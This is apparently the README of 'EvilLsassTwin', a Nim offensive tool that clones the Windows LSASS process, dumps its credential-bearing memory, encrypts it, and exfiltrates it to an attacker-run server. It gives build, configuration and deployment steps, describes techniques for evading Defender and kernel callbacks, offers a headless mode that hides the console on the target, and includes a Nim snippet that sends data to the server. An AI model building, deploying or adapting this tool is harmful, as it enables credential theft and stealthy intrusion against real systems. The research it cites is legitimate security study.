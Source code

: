 # Evil Lsass Twin
Originally, a port of the [Dirty Vanity](https://github.com/deepinstinct/Dirty-Vanity) project to fork and dump the LSASS process. Has been updated upon further research to attempt to duplicate open handles to LSASS. If this fails (and it likely will), it will attempt to obtain a handle to LSASS through the `NtGetNextProcess` function instead of `OpenProcess`/`NtOpenProcess`. 

Nim, by default (or rather the Winim module) makes use of dynamic function resolution for Windows API functions, ~~so the IAT should only include a reference to GetProcAddress and LoadLibrary (for better or worse)~~ so the IAT will only contain certain functions standard across all Nim executables.

The process cloning functionality has been updated to use make use of `NtCreateProcessEx` instead of `RtlCreateProcessReflection` as this only requires `PROCESS_CREATE_PROCESS` and does not create an initial thread (thereby triggering process creation kernel callbacks). 

Partial implementation of Process Ghosting technique is included to make use of the Delete On Close functionality. 

How this works: 
1. `MiniDumpWriteDump` function is used to dump forked LSASS process's memory into a file on-disk.
2. File is marked with Delete on Close and does not allow other threads to access it simultaneously.
3. File is mapped into memory
4. File is deleted after open handle to it is closed
5. Mapped Data (memory dump) is encrypted and saved to disk *or* sent to server

This will only occur if the tool is set to use the standard Win32 `MiniDumpWriteDump` API function. By default, EvilLsassTwin uses a custom minidump function that will keep the data in memory unless set to save to disk. This allows EvilLsassTwin to keep the dump size to a minimum. 

Requires the `winim` and `ptr_math` modules. Several IOCs and opportunities for detection since this simple port was not originally built with stealth in mind. However, as noted above, this project _does_ include some stealthy features. 

Tested on Windows 10 22H2 and Windows 11 with Defender enabled (Cloud Analysis disabled).

Must be run from an Administrator Command Prompt or Powershell as EvilLsassTwin depends on `SeDebugPrivilege`. 

_Note: SeDebugPrvilege is enabled by default on Elevated Powershell._

_Note: Tool will **not** work against PPL (try the PPL branch) or Credential Guard. Tool also will not work when EDRs patch LSASS a la [Cortex XDR Modifications](https://www.paloaltonetworks.com/blog/security-operations/detecting-credential-stealing-with-cortex-xdr/)_

# Usage
This project was developed and tested with Nim 1.6.10 and 1.6.14. It is **not** compatible with Nim 2.0.

1. Install Dependencies with `nim dependencies` or through Nimble package manager (Atlas not yet tested)
2. Configure settings from lines 15 to 25. Settings include Server IP and Port, SMB Share Name, saving to disk, minidump method (*set to either **useCustom** or **useTraditional***), and exfil method (*set to either **useRaw** or **useSMB***)
4. Compile the project with `nim build`. _Note: this assumes EvilTwinServer will be run on a Linux machine. Manual compilation required otherwise_
5. If **not** set to save to file: `chmod +x EvilTwinServer && ./EvilTwinServer`
6. Transfer EvilLsassTwin.exe to (Windows) target machine and Run.   

# Important Notes
By default, EvilLsassTwin *will* use RC4 to encrypt the dump and display the encryption key in hexadecimal in the console. EvilTwinServer will attempt to decrypt the dump file automatically for you. However, if this fails, you will have to decrypt the file yourself. This can be done with OpenSSL. Take note of the command used in either the terminal (if running) or in the `EvilTwinServer.nim` file!

Alternatively, if you **don't** want a console screen popping up on the target machine, a "headless" build can be done. Take note of the build command in the `config.nims` file and add option `--app:gui`. Doing so will require you to either use EvilTwinServer or create a custom script/application. This is due to EvilLsassTwin sending the encryption key and then the dump in that order. Should another application be used without modification to the `EvilLsassTwin.nim` file, both encryption key and data are likely to be included in the same file, rendering the dump file useless without even further modification. 

Lastly, EvilTwinServer is **not** required with a standard build. With a simple change to the `EvilLsassTwin.nim` file, another application may be used to receive the encrypted dump file. To do so, simply comment out or remove the following lines: 
```nim
echo "[!] Sending Encryption Key to Server..."
        if not socket.trySend(rc4KeyStr):
            echo "[-] Could Not Send Encryption Key to Server!"
```
# Resources
[Bill Demirkapi - Abusing Windows Implemention of Fork for Stealthy Memory Operations](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)

[Dirty Vanity](https://github.com/deepinstinct/Dirty-Vanity)

[TransactedSharpMiniDump](https://github.com/PorLaCola25/TransactedSharpMiniDump/tree/master)

[Rasta Mouse - Dumping LSASS with Duplicated Handles](https://rastamouse.me/dumping-lsass-with-duplicated-handles/)

[Rasta Mouse - Duplicating Handles in C#](https://rastamouse.me/duplicating-handles-in-csharp/)

[Splintercod3 - The Hidden Side of Seclogon - Part 2](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)

[Diversenok - The Definitive Guide to Process Cloning on Windows](https://diversenok.github.io/2023/04/20/Process-Cloning.html)

[NativeDump](https://github.com/ricardojoserf/NativeDump)

[NanoDump](https://github.com/fortra/nanodump)
